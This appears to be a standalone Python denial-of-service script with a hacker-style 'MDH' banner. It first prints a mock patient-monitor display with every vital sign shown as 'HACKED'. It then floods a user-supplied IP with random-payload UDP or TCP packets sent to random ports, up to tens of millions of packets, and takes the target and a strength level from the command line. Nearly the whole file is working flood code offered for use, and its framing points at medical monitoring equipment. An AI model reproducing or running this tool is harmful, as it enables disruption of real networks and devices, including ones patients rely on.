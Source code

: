 # Map


import socket, sys, random

def banner():
    banner = """[91m
         ███▄ ▄███▓▓█████▄  ██░ ██ 
        ▓██▒▀█▀ ██▒▒██▀ ██▌▓██░ ██▒
        ▓██    ▓██░░██   █▌▒██▀▀██░
        ▒██    ▒██ ░▓█▄   ▌░▓█ ░██ 
        ▒██▒   ░██▒░▒████▓ ░▓█▒░██▓
        ░ ▒░   ░  ░ ▒▒▓  ▒  ▒ ░░▒░▒
        ░  ░      ░ ░ ▒  ▒  ▒ ░▒░ ░
        ░      ░    ░ ░  ░  ░  ░░ ░
        ░      ░     ░  ░  ░
                        ░             
    [0m"""
    print(banner)

def simulate_hacked_data():
    # Simulating vital signs all set to "HACKED"
    vital_signs = {
        "NIBP": {"Systolic": "HACKED", "Diastolic": "HACKED"},
        "SpO2": "HACKED",
        "PR": "HACKED",
        "Temp": "HACKED",
    }

    print("\nSimulated Vital Signs (HACKED):")
    print("-------------------------------")
    print(f"Blood Pressure: {vital_signs['NIBP']['Systolic']}/{vital_signs['NIBP']['Diastolic']}")
    print(f"SpO2: {vital_signs['SpO2']}")
    print(f"Pulse Rate: {vital_signs['PR']}")
    print(f"Temperature: {vital_signs['Temp']}")
    print("-------------------------------")
    print("All values indicate a potential system compromise. Immediate attention required!\n")

def flood(ip, protocol, strength):
    client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM if protocol == 'udp' else socket.SOCK_STREAM)
    data = random._urandom(1024 * strength)
    total_packets = strength * 10000000  

    try:
        for i in range(total_packets):
            try:
                if protocol == 'tcp':
                    client.connect((ip, random.randint(1, 65535)))
                client.sendto(data, (ip, random.randint(1, 65535)))
            except:
                pass
            
            progress = (i + 1) / total_packets
            bar_length = 50  
            filled_length = int(bar_length * progress)
            bar = '█' * filled_length + '-' * (bar_length - filled_length)
            print(f"\r|{bar}| {progress * 100:.2f}%", end="")
    except KeyboardInterrupt:
        sys.exit(0)

if __name__ == "__main__":
    banner()
    simulate_hacked_data()  # Add hacked data simulation here

    if len(sys.argv) != 4:
        print("Usage: python script.py <ip> <protocol> <strength (1-5)>")
        sys.exit(1)

    _, ip, protocol, strength = sys.argv
    strength = int(strength)
    if strength < 1 or strength > 5:
        print("Strength must be between 1 and 5")
        sys.exit(1)

    flood(ip, protocol, strength)
